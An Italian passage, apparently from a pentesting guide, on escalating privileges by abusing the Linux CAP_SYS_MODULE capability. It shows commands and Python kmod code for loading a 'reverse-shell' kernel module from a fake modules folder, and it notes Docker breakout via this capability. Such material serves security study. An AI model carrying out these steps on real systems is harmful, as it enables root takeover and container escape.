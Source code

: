 **Esempio con un binario**

Nell'esempio seguente, il binario **`python`** ha questa capacità.
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_module+ep
```
Di default, il comando **`modprobe`** controlla la lista delle dipendenze e i file di mappatura nella directory **`/lib/modules/$(uname -r)`**.\
Per sfruttare ciò, creiamo una falsa cartella **lib/modules**:
```bash
mkdir lib/modules -p
cp -a /lib/modules/5.0.0-20-generic/ lib/modules/$(uname -r)
```
Quindi **compila il modulo del kernel che puoi trovare 2 esempi di seguito e copialo** in questa cartella:
```bash
cp reverse-shell.ko lib/modules/$(uname -r)/
```
Infine, esegui il codice Python necessario per caricare questo modulo del kernel:
```python
import kmod
km = kmod.Kmod()
km.set_mod_dir("/path/to/fake/lib/modules/5.0.0-20-generic/")
km.modprobe("reverse-shell")
```
**Esempio 2 con binario**

Nell'esempio seguente, il binario **`kmod`** ha questa capacità.
```bash
getcap -r / 2>/dev/null
/bin/kmod = cap_sys_module+ep
```
Ciò significa che è possibile utilizzare il comando **`insmod`** per inserire un modulo del kernel. Segui l'esempio di seguito per ottenere una **shell inversa** sfruttando questo privilegio.

**Esempio con ambiente (Docker breakout)**

È possibile verificare le capacità abilitate all'interno del container Docker utilizzando:
```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
All'interno dell'output precedente è possibile vedere che la capacità **SYS\_MODULE** è abilitata.
